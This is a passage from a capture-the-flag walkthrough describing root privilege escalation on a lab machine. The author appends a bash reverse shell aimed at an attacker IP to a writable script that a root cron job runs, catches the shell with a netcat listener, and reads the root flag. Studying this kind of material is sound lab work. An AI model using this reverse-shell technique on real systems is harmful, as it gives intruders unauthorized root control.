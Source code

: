 We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
